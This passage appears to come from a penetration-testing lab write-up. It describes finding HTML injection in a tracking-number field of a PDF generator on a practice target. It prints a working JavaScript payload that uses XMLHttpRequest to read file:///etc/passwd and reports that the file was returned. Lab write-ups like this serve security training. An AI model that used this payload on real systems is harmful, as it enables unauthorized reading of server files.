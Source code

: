 Then it's creating a pdf-look document with our input.
While playing with this input, I figured out that the system is not sanitizing or filtering non-digit chracters, and even allows html code injection.

- TEXT INPUT -> TEXT INPUT
- `<h1>HTML INPUT</h1>` -> HTML INPUT(h1 size)

Regarding this, here's the references explaining how to exploit this;
- https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f
- https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/

Here's a payload to read a file from the server.

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){  
document.write(this.responseText)};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

When I send this as tracking number input, it returns the following;

![](attachments/aen_31.png)

It returns `/etc/passwd` from the target system.
We can report it as one another critical vulnerability **SSRF to Local File Read**.

##### vpn.inlanefreight.local

![](attachments/aen_32.png)